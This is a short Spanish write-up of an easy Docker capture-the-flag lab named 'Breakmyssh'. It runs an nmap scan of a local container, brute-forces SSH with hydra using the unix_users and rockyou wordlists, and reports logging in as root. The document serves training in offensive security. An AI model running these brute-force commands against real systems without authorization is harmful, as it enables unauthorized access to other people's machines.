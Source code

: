 ## 🐋 Docker Lab - Breakmyssh 

    Difficulty: Very Easy
    SO: Linux

# Reconocimiento
1.- Primero utilzaremos nmap con el siguiente comando ''nmap -p- --open -T5 -n -Pn 172.17.0.2  
- -p- -> Escanea todos los puertos (6535)
- --open -> Reporta todos los puertos abiertos
- -T5 -> Plantilla de tiempo (Agresivo)
- -n Desactiva la resolucion DNS
- -Pn Asume que todos los hosts se encuentran activos
![NMAP](./images/breakssh/namp.png)

El seervicio SSH se encuentra activo, ocupamos un nombre de usuario y una contraseña para poder logearnos. 

# Explotacion
Revisando, vemos que no tenemos mas info para trabajar, por lo tanto aplicaremos fuerza bruta utilizando ''HYDRA''  
- hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
- -L -> Dado que no tenemos el nombre de usuario, le pasamos un diccionario.
- -P -> Dado que no tenemos una contraseña, pasamos un diccionario.

![HYDRA](./images/breakssh/hydra.png)

Con la contraseña, podemos probar conectarnos sin usuario.  
![SSH](./images/breakssh/ssh.png)

Directamente nos conecta como root, por ende tenemos privilegios de superusuario. 
